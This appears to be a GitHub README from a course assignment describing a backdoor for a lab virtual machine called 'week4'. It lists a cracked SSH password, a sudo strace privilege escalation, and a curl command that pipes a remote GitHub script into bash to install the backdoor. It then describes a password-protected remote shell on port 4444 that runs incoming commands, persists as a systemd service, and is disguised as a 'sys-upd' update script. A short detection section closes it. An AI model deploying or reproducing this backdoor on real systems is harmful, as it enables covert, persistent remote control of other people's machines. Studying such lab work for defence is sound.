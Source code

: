 # Project

Project File Overview<br><br>
Bash Scripts (Deployed on Target):

- backdoor: Deployment script

- sys-upd: Downloads and executes the server

- sys-upd.service: systemd service unit file

Python Scripts:

- sys.py: Backdoor listener (server side)

- access.py: Client interface (run from attacker machine)

A) how to install it in the week4 virtual machine,

Enable the host to communicate with the VM over port 4444, add this rule in VirtualBox:

Go to Settings > Network > Adapter 1 → click Port Forwarding

Add the following rule:<br>
Name: backdoor-link<br>
Protocol: TCP<br>
Host IP: 127.0.0.1<br>
Host Port: 4444<br>
Guest IP: (leave blank or default)<br>
Guest Port: 4444<br>

___________________________________

ssh into the week4 virtual machine:<br>
User: user<br>
Password: hill<br>

Note: (I analyzed the .pcapng file in Wireshark and identified an HTTP response containing user data. A hashed password for the user user stood out. Using John the Ripper with the rockyou.txt wordlist, I successfully cracked the hash and retrieved the password: hill.)

___________________________________


## Escalate Privileges
To escalate privileges use this command:<br><br>
Command: sudo strace -o /dev/null /bin/bash<br>
Command: cd (Change Directory)<br>
Command: curl -s https://raw.githubusercontent.com/Hussnain-Khan/backdoor/main/Bash/backdoor | bash<br>

___________________________________


Once this done, Clone the reopsitory in your system and navigate from terminal to Python folder directory and run <br>
`python sys.py`

B) how your backdoor works internally

- Our backdoor operates by deploying a persistent listener on the target machine using a Bash script (sys-upd) managed by a systemd service (sys-upd.service). This script opens TCP port 4444 and runs the Python server (sys.py) which continuously listens for incoming connections. 

- When a connection is received, it prompts for a password (week4) to authenticate the client. Upon successful login, the server receives and executes shell commands from the client (access.py) and sends back the results. 

- All communication is socket-based and occurs over the specified port, enabling the attacker to remotely control the host shell in real time while maintaining persistence across reboots.

___________________________________

C) how your backdoor works internally

1. Remote Shell Access

- The sys.py script binds to port 4444 and listens for incoming connections. Once authenticated, it enters a loop waiting for shell commands from the attacker. The command is executed via subprocess.Popen() and results are sent back to the attacker.

2. Persistence

- Persistence is achieved using a systemd service (sys-upd.service). The backdoor is enabled to auto-start on boot using systemctl enable sys-upd, ensuring the listener runs continuously.

3. Configuration to get commands from:

- Commands are received over the network socket (TCP on port 4444). The sys.py server waits for incoming commands from the client and executes them directly.

4. Authentication

- The backdoor requires a password (week4) before allowing shell access. If the password is incorrect, the connection is closed and access is denied.

5. Hiding from Detection

- The backdoor is disguised as a system update script: sys-upd. It is placed in the /root directory and registered as a systemd service with a generic name.. Minimal console output and error handling are included to avoid raising suspicion.

___________________________________

D) ideas on how yourbackdoor could be detected.

- The backdoor can be detected using tools like Wireshark by identifying unusual traffic on port 4444.It may also be exposed through system audits by spotting suspicious services like sys-upd.service or by detecting scripts fetched from GitHub. Security tools or EDRs could flag the listener's behavior of executing remote shell commands.


___________________________________


Bonus points will be awarded for:

Make sure [Escalate Privileges](#escalate-privileges) is done.

A script or program that will detect if the host is infected with your backdoor

Download the detection script<br><br>
curl -s https://raw.githubusercontent.com/Hussnain-Khan/backdoor/main/Bonus/detect_backdoor.sh -o detect_backdoor.sh

Make the script executable <br><br>
chmod +x detect_backdoor.sh

# Step 3: Run the script <br><br>
./detect_backdoor.sh

